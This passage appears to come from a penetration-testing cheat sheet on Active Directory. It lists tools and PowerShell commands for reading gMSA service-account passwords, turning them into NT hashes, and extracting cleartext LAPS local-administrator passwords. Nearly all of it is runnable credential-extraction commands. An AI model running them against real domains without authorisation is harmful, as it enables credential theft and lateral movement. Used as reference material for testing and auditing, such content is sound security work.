 * [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) (C#)
  ```ps1
  # https://github.com/rvazarkar/GMSAPasswordReader
  GMSAPasswordReader.exe --accountname SVC_SERVICE_ACCOUNT
  ```

* [gMSADumper (Python)](https://github.com/micahvandeusen/gMSADumper)
   ```powershell
  # https://github.com/micahvandeusen/gMSADumper
  python3 gMSADumper.py -u User -p Password1 -d domain.local
  ```
  
* Active Directory Powershell
  ```ps1
  $gmsa =  Get-ADServiceAccount -Identity 'SVC_SERVICE_ACCOUNT' -Properties 'msDS-ManagedPassword'
  $blob = $gmsa.'msDS-ManagedPassword'
  $mp = ConvertFrom-ADManagedPasswordBlob $blob
  $hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
  ```

* [gMSA_Permissions_Collection.ps1](https://gist.github.com/kdejoyce/f0b8f521c426d04740148d72f5ea3f6f#file-gmsa_permissions_collection-ps1) based on Active Directory PowerShell module

### Reading LAPS Password

> Use LAPS to automatically manage local administrator passwords on domain joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure. 

#### Determine if LAPS is installed

```ps1
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'
```

#### Extract LAPS password

> The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users

 - From Windows:

   * adsisearcher (native binary on Windows 8+)
       ```powershell
       ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { $_.properties}
       ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE$))").findAll() | ForEach-Object { $_.properties}
       ```

   * [PowerView](https://github.com/PowerShellEmpire/PowerTools)
       ```powershell
       PS > Import-Module .\PowerView.ps1
       PS > Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime
       ```
